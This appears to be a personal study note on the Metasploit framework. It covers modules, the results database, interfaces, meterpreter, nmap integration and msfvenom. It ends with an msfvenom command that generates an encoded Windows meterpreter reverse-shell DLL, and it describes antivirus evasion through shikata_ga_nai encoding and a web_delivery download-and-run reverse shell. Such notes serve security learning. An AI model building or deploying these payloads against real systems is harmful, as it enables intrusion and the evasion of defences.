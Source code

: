 Metasploit is an exploitation framework 
Exploit is a piece of code that takes advantage us a given vulnerability in the target, with the purpose of running a payload that does a indented action of the target. 

Metasploit also have other modules such as auxiliary which provide other capabilities such as port scanning, vulnerability checks, and other features. 
Another module is called post which is used after the exploitation phase, such as steal valuable information. 

Metasploit can both access a local or remote PostgreSQL database for storing and analyzing results.
- Contains information about creds, loot, notes, hosts, services, vulns on host. 
- One way to enrich information in database is using auxiliary modules.
you can interact with the information using the name of the table
	- example of usage https://www.offensive-security.com/metasploit-unleashed/using-databases/
	
User interfaces
msfconsole metasploit command prompt. 
msfd a listens on TCP port 55554, allowing msfconsole access.
msfrpcd control metasploit through XML over RPC on TCP port 55553
Armitage is a GUI that controls metasploit through msfrpcd, is no longer updated  
msfcli 
maspayload convert payload into a stand-alone file
msfencode take a raw payload and encode it to evade strict signature of [[IDS]], [[IPS]] and [[anti-virus]].  


Metasploit cheat sheet: https://www.sans.org/security-resources/sec560/misc_tools_sheet_v1.pdf

Metasploit meterpreter acts as a shell running inside of a exploited process
	- no process created. 
	- works on wind, linux, php, java and mac.
	- communication is encrypted with TLS. 
Meterpreter commands can be seen in the cheat sheet. 
msfmap is a port scanning module that can be loaded.
	load msfmap 
	
Metasploit nmap interaction
	- using db-nmap allows you to invoke [[Nmap]] from metasploit. 
	- Commands are the same as Nmap. 
	
Import data from [[Vulnerability Scanning]]
	- using db_import {filename} 
	allows metasploit to automatically import the information from the file, 
	and added to the host. 
	 Supported scanners file 
	 	- [[Nmap]]
	 	- NeXpose
		- [[Nessus]]
		
		 ^998485
import module from exploit_db 
download the module to the folder 
/root/.msf4/modules/
msfdb reinit to restart the database 
start msfconsole 
search for the new exploit


### Exploits 
#### web_delivery module 
One line python command which can be use to create a reverse_tcp meterpreter connection by opening a url in python and downloading the exploit from the hacker site. 


### MSFVenom 
is a combination of msfpayload and masfencode putting these tools into a single framework instance is allows the user to create a payload which can be used on the target machine, MSFVenom allows the payload to be target to different platforms and formats. another tools msfvenom also comes with is encoded or scrambling of the payload to ensure that the anti virus does not detect the malware. 
shikata_ga_nai is a common encoding type used for scrambling the malware. 
2
usage : 
msfvenom -p windows/meterpreter/reverse_tcp lhost=<your ip>  lport=4444 -e x86/shikata_ga_nai -i 10 -f dll > payload.dll